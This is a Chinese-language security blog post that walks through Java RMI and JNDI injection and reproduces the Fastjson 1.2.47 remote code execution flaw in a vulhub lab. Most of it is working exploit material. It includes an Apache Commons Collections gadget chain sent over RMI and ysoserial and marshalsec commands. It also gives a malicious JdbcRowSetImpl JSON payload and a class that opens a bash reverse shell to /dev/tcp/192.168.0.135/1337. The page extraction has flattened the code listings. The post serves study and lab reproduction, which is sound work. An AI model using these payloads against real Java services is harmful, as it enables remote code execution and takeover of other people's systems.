


Web
RMI（Remote Method Invocation）是专为Java环境设计的远程方法调用机制。
远程服务器实现具体的Java方法并提供接口，客户端本地仅需根据接口类的定义，提供相应的参数即可调用远程方法。
RMI依赖的通信协议为JRMP(Java Remote Message Protocol ，Java 远程消息交换协议)，该协议为Java定制，要求服务端与客户端都为Java编写。
任何可以被远程调用方法的对象必须实现 java.rmi.Remote 接口，远程对象的实现类必须继承UnicastRemoteObject类(或者手工初始化远程对象，详见参考链接)
RMI的远程调用逻辑如下图（摘自参考链接https://www.freebuf.com/column/189835.html）
1 2 3 4 5 6 1. Server端监听一个端口，这个端口是JVM随机选择的； 2. Client端并不知道Server远程对象的通信地址和端口，但是Stub中包含了这些信息，并封装了底层网络操作； 3. Client端可以调用Stub上的方法； 4. Stub连接到Server端监听的通信端口并提交参数； 5. 远程Server端上执行具体的方法，并返回结果给Stub； 6. Stub返回执行结果给Client端，从Client看来就好像是Stub在本地执行了这个方法一样
JDK提供了RMI注册表来获取Stub，现在的调用关系如下图
使用下面的案例来利用RMI触发Apache Commons Collections的漏洞
案例代码参考自http://mi0.xyz/2019/09/07/%e6%b5%85%e6%98%be%e6%98%93%e6%87%82%e7%9a%84java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e5%85%a5%e9%97%a8/
首先定义一个客户端和服务端共用的接口User，这里的dowork(Object work)就是后面要触发漏洞的关键方法
1 2 3 4 5 6 7 8 9 10 package RMI;import java.rmi.Remote;import java.rmi.RemoteException;public interface User extends Remote String name (String name) throws RemoteException ; void say (String say) throws RemoteException void dowork (Object work) throws RemoteException }
接着定义该接口的实现类，注意这里继承了UnicastRemoteObject类
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 package RMI;import java.rmi.RemoteException;import java.rmi.server.UnicastRemoteObject;public class UserImpl extends UnicastRemoteObject implements User public UserImpl () throws RemoteException super (); } @Override public String name (String name) throws RemoteException return name; } @Override public void say (String say) throws RemoteException System.out.println("you speak" + say); } @Override public void dowork (Object work) throws RemoteException System.out.println("your work is " + "dont need work here still pop window" ); } }
然后是RMI远程服务器的实现，可以看到使用了RMI URL和远程对象的引用注册远程对象，端口这里设置为1337
1 2 3 4 5 6 7 8 9 10 11 12 13 14 package RMI;import java.rmi.Naming;import java.rmi.registry.LocateRegistry;public class UserServer public static void main (String[] args) throws Exception String url = "rmi://192.168.0.135:1337/User" ; User user = new UserImpl(); LocateRegistry.createRegistry(1337 ); Naming.bind(url,user); System.out.println("the RMI server is Running ..." ); } }
最后看一下客户端的代码
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 package RMI;import org.apache.commons.collections.Transformer;import org.apache.commons.collections.functors.ChainedTransformer;import org.apache.commons.collections.functors.ConstantTransformer;import org.apache.commons.collections.functors.InvokerTransformer;import org.apache.commons.collections.map.TransformedMap;import java.lang.annotation.Target;import java.lang.reflect.Constructor;import java.rmi.Naming;import java.util.HashMap;import java.util.Map;public class UserClient public static void main (String[] args) throws Exception String url = "rmi://192.168.0.135:1337/User" ; User userClient = (User) Naming.lookup(url); System.out.println(userClient.name("hello freshman" )); userClient.say(" world" ); userClient.dowork(getpayload()); } public static Object getpayload () throws Exception Transformer[] transformers = new Transformer[]{ new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod" , new Class[]{String.class, Class[].class}, new Object[]{"getRuntime" , new Class[0 ]}), new InvokerTransformer("invoke" , new Class[]{Object.class, Object[].class}, new Object[]{null , new Object[0 ]}), new InvokerTransformer("exec" , new Class[]{String.class}, new Object[]{"calc.exe" }) }; Transformer transformerChain = new ChainedTransformer(transformers); Map map = new HashMap(); map.put("value" , "sijidou" ); Map transformedMap = TransformedMap.decorate(map, null , transformerChain); Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler" ); Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class); ctor.setAccessible(true ); Object instance = ctor.newInstance(Target.class, transformedMap); return instance; } }
可以看到getpayload()函数里就是Apache Commons Collections漏洞的一个利用链，返回了instance对象
代码里的下面这行
1 User userClient = (User) Naming.lookup(url);
和参考链接里的这几行不太一样，没有用到LocateRegistry.getRegistry()
1 2 3 Registry registry = LocateRegistry.getRegistry("kingx_kali_host",1099); IHello rhello = (IHello) registry.lookup("hello"); rhello.sayHello("test");
那是因为Naming.lookup做了封装
另外有一点要注意的是，上面的这些java文件，需要使用同一个package，否则会报
1 no security manager: RMI class loader disabled
这样的错误
最后首先运行UserServer.java打开服务器，再运行UserClient.java，将会弹出计算器
同样的，如果UserClient.java中的getpayload最后不是返回instance，返回readObject()后的对象也是可以触发的，代码不放了，直接看截图
用一下ysoserial工具(https://github.com/frohoff/ysoserial ):
1 java -cp ysoserial-master-30099844c6-1.jar ysoserial.exploit.RMIRegistryExploit 192.168.0.135 1337 CommonsCollections1 calc.exe
在ysoserial-master-30099844c6-1.jar所在的目录下执行上面的命令，成功触发命令执行

1 RMI核心特点之一就是动态类加载，如果当前JVM中没有某个类的定义，它可以从远程URL去下载这个类的class，动态加载的对象class文件可以使用Web服务的方式进行托管。这可以动态的扩展远程应用的功能，RMI注册表上可以动态的加载绑定多个RMI应用。JNDI注入也利用了动态类的方法。
JNDI (Java Naming and Directory Interface)是一个应用程序设计的API，为开发人员提供了查找和访问各种命名和目录服务的通用、统一的接口。JNDI支持的服务主要有以下几种：DNS、LDAP、 CORBA对象服务、RMI等。
如果远程获取RMI服务上的对象为Reference类或其子类，则在客户端获取到远程对象存根实例时，可以从其他服务器上加载class文件进行实例化，常用的代码形式：
1 2 3 Reference refObj = new Reference("ClassName" , "ClassFactory" , "http://example.com:12345/" ); ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj); registry.bind("refObj" , refObjWrapper);
JNDI支持很多服务类型，当服务类型为RMI协议时，如果从RMI注册服务中lookup的对象类型为Reference类或者其子类时,会导致远程代码执行，JNDI注入的产生原因在于Reference类中的第3个参数(也就是上面代码的http://example.com:12345/)是可控的 客户端的lookup()函数的参数是可控的，可以结合下面的实例代码这样理解，JNDIClient是合法健康的，但是假设它lookup(xx)的参数xx是外界传入的，那么攻击者就可以传入一个有毒的比如RMI地址，也就是下面的RMIServer，这个RMIServer实际上是攻击者搭建的。参考https://www.freebuf.com/column/189835.html
具体看下面的实例，代码参考https://www.smi1e.top/java%e4%bb%a3%e7%a0%81%e5%ae%a1%e8%ae%a1%e5%ad%a6%e4%b9%a0%e4%b9%8bjndi%e6%b3%a8%e5%85%a5/
RMIServer.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 package RMI2;import com.sun.jndi.rmi.registry.ReferenceWrapper;import javax.naming.Reference;import java.rmi.registry.LocateRegistry;import java.rmi.registry.Registry;public class RMIServer public static void main (String args[]) throws Exception Registry registry = LocateRegistry.createRegistry(8080 ); Reference refObj = new Reference("EvilObject" , "EvilObject" , "http://127.0.0.1:8000/" ); ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj); System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:8080/refObj'" ); registry.bind("refObj" , refObjWrapper); } }
从代码中可以看到，创建了RMI注册表，并把其绑定到了refObj上，而refObj对象又是Reference类，并从http://127.0.0.1:8000/EvilObject.class加载class文件并实例化
用nmap来识别一下这个8080端口
JNDIClient.java
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 package RMI2;import javax.naming.Context;import javax.naming.InitialContext;import javax.naming.NamingException;public class JNDIClient public static void main (String[] args) throws Exception try { Context ctx = new InitialContext(); ctx.lookup("rmi://127.0.0.1:8080/refObj" ); String data = "This is RMI Client." ; } catch (NamingException e) { e.printStackTrace(); } } }
EvilObject.java
1 2 3 4 5 public class EvilObject public EvilObject () throws Exception Runtime.getRuntime().exec("calc.exe" ); } }
然后用JDK 7u80将EvilObject.java编译为EvilObject.class
1 注意在在JDK 6u132, JDK 7u122, JDK 8u113 中Java提升了JNDI 限制了Naming/Directory服务中JNDI Reference远程加载Object Factory类的特性。系统属性 com.sun.jndi.rmi.object.trustURLCodebase、com.sun.jndi.cosnaming.object.trustURLCodebase 的默认值变为false，即默认不允许从远程的Codebase加载Reference工厂类。
然后在该目录下开启8000端口作为web服务器
依次在IDEA里运行RMIServer、JNDIClient
可以看到触发了命令执行
最后，复现和学习一下Fastjson 1.2.47的远程命令执行漏洞。
环境用的是vulhub https://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce
将vulhub通过git clone下来，再切换到fastjson/1.2.47-rce目录下，启动漏洞环境：
浏览器访问http://IP:8090再抓包
然后修改GET请求为POST，并且修改Content-Type: application/json
在发送payload之前，要做一些准备工作，因为payload的关键是指定一个恶意的rmi服务器
这里用marshalsec来启动一个rmi服务器，该工具的git地址：https://github.com/mbechler/marshalsec
首先是要通过源码打包成jar,这个过程还是比较慢的
1 2 3 4 git clone https://github.com/mbechler/marshalsec.git cd marshalsec apt install maven mvn clean package -DskipTests
jar包有了之后，开启rmi服务器
1 D:\ApplicationTools\Java\jdk1.8.0_231\bin\java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.135/#TouchFile" 7777
接着在启动一个web服务器，将TouchFile.class文件置于其目录下
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import java.lang.Runtime;import java.lang.Process;public class TouchFile static { try { Runtime rt = Runtime.getRuntime(); String[] commands = {"touch" , "/tmp/success" }; Process pc = rt.exec(commands); pc.waitFor(); } catch (Exception e) { } } }
编译：
1 D:\ApplicationTools\Java\jdk1.8.0_231\bin\javac TouchFile.java
burpsuite里输入的payload如下：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 { "a" :{ "@type" :"java.lang.Class" , "val" :"com.sun.rowset.JdbcRowSetImpl" }, "b" :{ "@type" :"com.sun.rowset.JdbcRowSetImpl" , "dataSourceName" :"rmi://192.168.0.135:7777/TouchFile" , "autoCommit" :true } }
fastjson 1.2.47的payload和1.2.24的不同就在于，使用java.lang.Class绕过了黑名单，具体可以看https://www.anquanke.com/post/id/181874，
然后使用
1 docker-compose exec web bash
查看命令是否执行成功
接下来测试反弹shell
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 import java.lang.Runtime;import java.lang.Process;public class ReverseShell static { try { Runtime rt = Runtime.getRuntime(); String[] commands = {"/bin/bash" ,"-c" ,"bash -i >& /dev/tcp/192.168.0.135/1337 0>&1" }; Process pc = rt.exec(commands); pc.waitFor(); } catch (Exception e) { } } }
然后就是开启rmi服务器
1 D:\Learning\Java>D:\ApplicationTools\Java\jdk1.8.0_231\bin\java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.135/#ReverseShell" 7777
burpsute发送payload，payload代码和上面的一样
此时本地监听的nc已经有了响应
上面我用的是marshalsec-0.0.3-SNAPSHOT-all.jar，实际上之前在前面的例子里已经创建了RMIServer.java，可以利用它来作为RMI服务器
稍作改动后启动服务器，并且打开web服务器
在burpsuite里传入对应payload，同样可以反弹shell到指定的地址

漏洞复现完了。
漏洞的原理是JdbcRowSetImpl类的setAutoCommit()会调用connect()函数，connect()函数会调用InitialContext.lookup(dataSourceName)，然后dataSourceName是可控的，所以就可以JNDI注入了。
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 private Connection connect () throws SQLException if (this .conn != null ) { return this .conn; } else if (this .getDataSourceName() != null ) { try { InitialContext var1 = new InitialContext(); DataSource var2 = (DataSource)var1.lookup(this .getDataSourceName()); return this .getUsername() != null && !this .getUsername().equals("" )?var2.getConnection(this .getUsername(), this .getPassword()):var2.getConnection(); } catch (NamingException var3) { throw new SQLException(this .resBundle.handleGetObject("jdbcrowsetimpl.connect" ).toString()); } } else { return this .getUrl() != null ?DriverManager.getConnection(this .getUrl(), this .getUsername(), this .getPassword()):null ; } }